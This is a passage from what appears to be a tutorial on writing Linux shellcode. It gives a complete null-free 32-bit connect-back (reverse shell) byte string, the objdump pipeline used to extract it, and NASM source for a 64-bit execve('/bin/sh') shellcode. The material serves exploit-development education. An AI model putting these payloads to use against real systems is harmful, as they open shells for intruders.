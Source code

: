 Re-assemble the shellcode with the added routine and run a listener, you should get a shell :

```bash
$ ./connectback 
# id
uid=0(root) gid=0(root) groups=0(root)
```

You can try to extract the shellcode, it should be null byte free :)

```bash
objdump -d ./connectback|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x6a\x66\x58\x31\xdb\x43\x31\xd2\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\x6a\x66\x58\xba\x80\x01\x01\x02\x81\xea\x01\x01\x01\x01\x52\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\x43\xcd\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"
```

# x64 Shellcode

We assume that you already know 64-bit assembly code, if you don't, well, it's almost the same as 32-bit instructions... Anyway, 64-bit shellcode is as easy as the 32-bit ones.

**Note:** You can find lots of references for 64-bit system calls on Internet, like this [one](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/).
{: .notice--info}

The main difference are : 
- Instead of calling `ìnt 0x80` to trigger the syscall, we use the `syscall` instruction
- Registers are **64-bit** (O RLY ?!)
- The *execve()* syscall is **59** (integer)
- Instead of using *EAX, EBX, ECX, etc.* for the syscall, it's *RAX, RDI, RSI, RDX, etc.*

Let's try to reproduce the *execve()* shellcode we did earlier.

```nasm
; nasm -f elf64 execve64.asm
; ld -m elf_x86_64 execve64.o -o execve64
section .text
global _start

_start:
xor rax, rax
push rax        ; string terminator
mov rax, 0x68732f6e69622f2f ; "hs/nib//" (Yay! 64-bit registers)
push rax
mov rdi, rsp    ; "//bin/sh",0 pointer is RSP
xor rsi, rsi    ; RSI = 0
xor rdx, rdx    ; RDX = 0
xor rax, rax    ; RAX = 0
mov al, 0x3b    ; execve()
syscall
```
